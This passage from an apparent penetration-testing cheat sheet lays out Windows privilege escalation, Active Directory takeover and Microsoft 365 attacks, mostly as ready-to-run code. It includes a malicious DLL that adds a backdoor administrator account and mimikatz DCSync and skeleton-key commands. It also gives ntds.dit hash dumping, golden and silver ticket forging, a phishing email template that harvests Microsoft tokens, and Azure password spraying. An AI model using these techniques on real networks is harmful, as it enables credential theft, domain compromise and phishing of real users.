6. The directories that are listed in the PATH environment variable.

If you can identify a program that is missing a dll, or you find that you can insert one higher up in the order, you could force the application to attach to your malicious dll. 

Procmon will be useful to identify program missing dll's.

On your attacker machine, cross compile a malicious dll as `mal.cpp`

``` cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
now, cross compile
``` bash
x86_64-w64-mingw32-gcc mal.cpp --shared -o SharedLib.dll
```

</details>

<details>
<summary> group policy preferences file </summary>

msft publishes the [AES key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
``` powershell
# find cpassword under the sysvol share in any xml file
Get-ChildItem -Path "$env:LOGONSERVER\sysvol" -Filter *.xml -Recurse | Select-String "cpassword"
```
</details>

<details>
<summary>Recovering Credentials from a PXE Boot Image</summary>
</details>

<details>
<summary>always install elevated registry setting </summary>

``` bat
rem This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
</details>

<details>
<summary> unattended install files</summary>

``` powershell
# unattended install files typically in these locations
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\sysprep\sysprep.inf
c:\windows\sysprep\sysprep.xml
c:\windows\system32sysprep\Unattended.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
</details>

</details>
<summary>Exploits</summary>

privileges that may lead to privilege escalation are SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug and SeImpersonatePrivilege.

check for kernel vulns from microsoft https://msrc.microsoft.com/update-guide

``` bat
rem look for user privileges 
whoami /priv
whoami /all

rem get system info and patch info 
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```
</details>

## Domination

<details>
<summary> DCSync </summary>

``` bat
rem using mimikatz, extract the krbtgt hash via replication using the Directory Replication Service Remote (DRSR) Protocol
lsadump::dcsync /user:krbtgt
```
</details>

<details>
<summary> skeleton key </summary>

``` bat
rem using mimikatz, a skelton key can be loaded into memory on a domain controller that allows anyone to authenticate as any user in the domain with the password "mimikatz"
privilege::debug
misc::skeleton
```
</details>

<details>
<summary> extract ntds.dit oneliner </summary>

``` bat
ntdsutil "ac in ntds" "ifm" "cr fu c:\mybackup" q q
```
</details>

<details>
<summary> extract ntds.dit (to be used for golden ticket) </summary>

target machine (domain controller):
``` bat
rem as administrator on a domain controller, list shadow copies
vssadmin.exe list

rem if no existing copies, create one. 
vssadmin.exe create shadow /for=c:

rem copy the ntds.dit file from the shadoy copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\temp\ntds.dit

rem in order to extract hashes from ntds.dit you need the encryption key from the system hive. save the key from the registry:
reg save hklm\system c:\temp\system /y
```
attacker machine:
``` bash
# now, extract the ntds.dit and system files from the dc (use smbclient.py or whatever works). Once obtained, on the attacker machine, dump hashes
secretsdump.py -ntds ~/ntds.dit -system ~/system -outputfile hashes.txt LOCAL

# alternatively, you could do all of the above remotely using secretsdump.py. specifically here, were looking for the krbtgt hash
secretsdump.py domain.com/username:'password'@10.20.10.10 -just-dc-user krbtgt

# --------- with the above hashes, we can conduct the following golden ticket attack --------- #

# get the SID for the domain (stop lookup after enumerating to 520)
lookupsid.py domain.com/username:'password'@10.20.10.10 520

# armed with the domain SID and the krbtgt AES key, we can create a golen ticket
ticketer.py -domain domain.com -domain-sid S-1-5-21-XXXXXXXXX-YYYYYYYYY -aesKey AES_KEY_HERE Administrator

# export the ticket to later be used by impacket 
export KRB5CCNAME=Administrator.ccache

# use the ticket with impacket against a fileserver on the domain and run a command remotely
wmiexec.py -k -no-pass -dc-ip 10.20.10.10 file01.domain.com hostname
```
</details>

<details>
<summary> silver ticket </summary>

``` bat
rem like above, obtain the domain SID
lookupsid.py domain.com/username:'password'@10.20.10.10 520

rem in this case, we want to obtain the aes256 hash for a computer account (in this case file01$)
secretsdump.py domain.com/username:password@10.20.10.10 -just-dc-user file01$

rem using rubeus (could also use ticketer) generate the ticket for the SMB service on the fileserver
Rubeus.exe sliver /service:cifs/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:username

rem ensure the kerberos ticket has been loaded into local memory 
klist

rem now, try to hit access the server
dir \\file01.domain.com\c$

rem in this example, we can instead forge a ticket for a different "serviceclass" (we did cifs before) that lets us query the target's event logs using an arbitrary username and user id
Rubeus.exe sliver /service:host/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:anything /id:777

rem now query the event logs
wevutil /r:file01.domain.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName'='anything']" /f:text /c:1

```

</details>

## Microsoft O365
<details>
<summary> AADInternals </summary>

``` powershell
# conduct azure recon on given domain name
Invoke-AADIntReconAsOutsider -DomainName domain.com | Format-Table

# pass list of users to verify valid usernames
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal

# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@domain.com","wvictim2@domain.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache

# open a user's mailbox using the tokens you just obtained from previous phishing
Open-AADIntOWA
```
</details>

<details>
<summary> Password Spraying Azure </summary>

``` bash
# use trevorspray to get the token endpoint
trevorspray --recon domain.com

# spray passwords against known users
trevorspray --users /tmp/users.txt --passwords /tmp/passwords.txt --url 'https://login.windows.net/TENANT-ID/oauth2/token'

```
</details>

<details>
<summary> GraphRunner </summary>

``` powershell
# obtain a devicelogin token to use in a phishing email
Get-GraphTokens

# check security groups using the auth tokens obtained from prior phishing attack
Get-SecurityGroups -Tokens $tokens

# identify dynamic security groups to possibly use for privelege escalation
Get-DynamicGroups -Tokens $tokens
```
</details>
